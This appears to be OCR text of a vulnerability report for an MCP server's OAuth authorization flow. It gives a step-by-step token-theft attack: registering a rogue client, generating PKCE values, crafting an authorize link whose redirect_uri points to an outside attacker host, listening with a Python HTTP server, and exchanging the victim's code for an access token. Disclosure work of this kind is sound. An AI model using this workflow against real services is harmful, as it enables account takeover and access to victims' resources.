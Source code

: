 # kollektiv_vulnerability.pdf
## Metadata
- PDFFormatVersion=1.3
- IsLinearized=false
- IsAcroFormPresent=false
- IsXFAPresent=false
- IsCollectionPresent=false
- IsSignaturesPresent=false
- Producer=macOS 版本14.0（版号23A344） Quartz PDFContext
- CreationDate=D:20250515053113Z00'00'
- ModDate=D:20250515053113Z00'00'

## Contents
### Page 1
1.   First, use the register api to register a evil client_id  2.   Then we can use a javascript code to generate   a pair of PKCE  code, like below  {   11   code_verifier: 'zJu_u20q542vkqHg790nzV4VkflNY023Qzx1ENFRZqk',   12  code_challenge : 'ogH32ysf0wlQY8KKJOGf1s5IWwtKoa1eEq - bMVTbqpg'   13 }  3.   Then we replace the client_id,redirect_uri,code_challenge to  generate an evil link.  This is the original link  https://mcp.thekollektiv.ai/authorize?response_type=code&client_id  =q8WxVGfcGqFUG0vd&code_challenge=4kZ8ithQ_6gxonAkD_bV6M  i8PC3bHhQEGIxGxd1rDVM&code_challenge_method=S256&redirect  _uri=http%3A%2F%2F127.0.0.1%3A6274%2Foauth%2Fcallback  And below one is the evil link  https://mcp.thekollektiv.ai/authorize?response_type=code&client_id  =HgYqLWh9OmedD8LJ&code_challenge=ogH32ysf0wlQY8KKJOGf1  s5IWwtKoa1eEq -,### Page 2
bMVTbqpg&code_challenge_method=S256&redirect_uri=http%3A%2  F%2Fexp.azraelxuemo.cn%3A9876%2Foauth%2Fcallback  4.   Start a http server to receive the code  Python3   - m http.server 9876  5.   Send the link to victim  Once the victim click the link, we can get the code  6.   Get the token  Replace the code, code_verifier, redirect_uri, client_id  And we can get a valid access_token, just as the victim’s identity  Then when can use the MCP   Client tool to visit victim’s resource,### Page 3
